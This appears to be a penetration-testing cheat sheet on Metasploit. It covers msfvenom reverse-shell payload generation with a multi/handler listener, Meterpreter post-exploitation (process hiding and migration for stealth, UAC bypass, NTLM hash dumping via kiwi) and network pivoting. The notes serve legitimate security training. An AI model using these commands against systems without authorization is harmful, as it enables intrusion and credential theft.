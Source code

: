 ```yaml
---
layout: blank
pagetitle: Metasploit
---
```



## The Basics
**Setup and Navigate Metasploit**
- Database isn't enabled by default
	- `sudo msfdb init`, `sudo systemctl enable postgresql`
		- To restart database, stop postgresql and then `sudo msfdb reinit`
	- Run `db_status` in the console to check
- Workspaces
	- `workspace` - create workspaces when pentesting a client 
	- `db_nmap` - works like regular nmap, but stores results in the db
		- Query db with `hosts` for hosts and `services` for services
- `show -h` to show all modules, like `exploits`, `payloads`, and `auxiliary`
	- Showing payloads is nice; default is usually reverse tcp shel

**Auxiliary Modules**
- Used for external attacks, like enumeration, scanning, fuzzing, sniffing, etc.
- `search` to search through the modules, with `type` to specify the module type
	- For example: `search type:auxiliary smb` or `search Apache 2.4.41`
	- When some exploits have multiple targets, and you have a m
- `use` to use a module with a given index from a search
	- For example: `use /auxiliary/scanner/ssh/ssh_login` to brute force ssh
- `info` to get information about the current module
- `show options` to give options that the module can use
- `set {option} {parameter}` to set an option to a given parameter, like RHOSTS to an IP
	- `unset` to unset
	- can set files by providing the path
	- can set payloads by providing the path (`/payload/linux/x86/shell_reverse_tcp`)
- `vulns` to see if any vulnerabilities have been automatically detected
- `creds` to show any discovered creds
- `run -j` to run a job in the background and create a session for one client
- `sessions` can switch between shells
	- Use CTRL+Z to exit a shell but keep it in the background
	- `sessions -l` to list available sessions
	- `sessions -i {session_number}` to switch (interact) with a session

**SearchSploit**
- `sudo apt install exploitdb`
- Contains archive of all exploit code from exploitdb
- Can search through exploits with `searchsploit {string}`
- Can copy exploits to home directory with `-m`

## Using Payloads 

**Staged/Non-Stated Payloads**
- Non-staged: payload is sent along with the exploit
	- No use of `/`  means that it's non-staged (e.g. `shell_reverse_tcp`)
- Staged: Exploit the machine for a callback, then give a larger payload
	- `/` indicates a staged payload (e.g. `shell/reverse_tcp`)
- `show payloads` to see a list of all payloads
	- `set payload {index}` to set a payload after showing them

**Meterpreter**
- Multi-function payload residing entirely in memory
- `help` to display commands in shell
- `sysinfo`  and `getuid` to gather system data
- put `l` before any command to run it on kali
- Channels:
	- Basically the same thing as `sessions` in msf
	- `shell` and Ctrl+Z to push a channel to the background
	- `channel -l` to list all channels
	- `channel -i 1` to interact with a channel
- `download {file_path}` to download a file from the system
- `upload {local_file_path} {resulting_file_path}` to upload a file to the system
- `search -f {filename}` to search from `/` for a file named `{filename}`

**Executable Payloads**
- `msfvenom` can generate malicious executables
- `msfvenom -l payloads --platform {os (windows)} --arch {arch (x86)}` to list payloads
- `msfvenom -p {path_to_payload} LHOST={IP} LPORT={kali_listening_port} -f {filetype (exe)} -o {output_executable}` to generate an executable
- To get an interactive shell via a staged payload, we can use Metasploit's *multi/handler*
	- `use multi/handler`
	- Staged payloads will now give us an interactive shell
- Steps:
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<port> -f c`
		- Can also use generic ones:
			- `windows/x64/shell_reverse_tcp`
			- `linux/x64/shell_reverse_tcp`
	- `msfconsole`
	- `use exploit/multi/handler`
	- `set payload linux/x86/meterpreter/reverse_tcp`
	- `set LHOST 10.0.0.1`
	- `set LPORT 4444`
	- `exploit -j`

## Post-Exploitation

**Meterpreter Post-Exploitation Features**

- `idletime` to see how long it's been since the system was used (e.g. don't run shit until empty)
- `getsystem` to attempt to elevate privileges to NT AUTHORITY\\SYSTEM
- `migrate {process_id}` - injects meterpreter into another process for stealth and persistence
	- If no good processes exist, create one with `execute -H -f {process (notepad)}`
		- `-H` hides the process, so no visual representation will be present

**Post-Exploitation Modules**
- After injecting ourselves into another process, our privilege level drops, so we need to escalate
- `exploit/windows/local/bypassuac_sdclt` is good for UAC bypassing on Windows
	- We can set our session to the session running the shell (from Ctrl+Z -> `bg`)
- Can load extensions directly inside the active session using `load`
	- `load kiwi` to load an extension equivalent to Mimikatz
	- `help` to view commands, like `creds_msv` to dump NTLM hashes
- Can search for post exploitation modules with `search post ...`
	- These only require a meterpreter session id

**Pivoting with Metasploit**
- After getting on a machine, we can enumerate the network in a number of ways
- If we find an internal IP from something like `ipconfig`, we can pivot to it with the following:
	- `bg` to background the session in meterpreter and `route add {IP.IP.IP.0/24} {session_number}` to add a route to an internal network reachable through a compromised host
		- We can remove old routes with `route flush`
	- We can then set RHOSTS to an internal IP and use something like `auxiliary/scanner/portscan/tcp` to scan the open ports on the internal IP
	- Running exploits is the exact same--it just required the route set up in Metasploit
- Can also use `autoroute` module to set up pivot routes
	- `use multi/manage/autoroute`
	- `set session {session_ID}` - can list all sessions with `sessions -l`
- Can also combine routes with `server/socks_proxy`
	- `use auxiliary/server/socks_proxy`
	- Then set `VERSION`, `SRVHOST` as localhost, and `run -j`
		- This will probably return the port 1080
	- Then add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`
	- Can then use proxychains to run commands, such as `xfreerdp3`
		- `sudo proxychains xfreerdp3 /v:{internal_target_IP} /u:luiza`
- Can also use `portfwd`
	- Use a meterpreter session with `sessions -i {session #}`
	- Then, port forward with `portfwd add -l {local_port} -p {remote_port} -r {int_IP}`

## Automation

**Resource Scripts**
- Can chain together metasploit commands and Ruby code
	- Put all commands in a script (.rc) and pass it to msfconsole with `-r`
	- Can configure AutoRunScript to automatically execute a module after the script has been run - `set AutoRunScript {module (/post/windows/manage/migrate)}`
	- `set ExitOnSession` to false to keep the multi/handler listening after a connection
	- Then, run with `-z` and `-j` to put the job in the background and stop us from interacting
- Prebuilt available at `/usr/share/metasploit-framework/scripts/resource`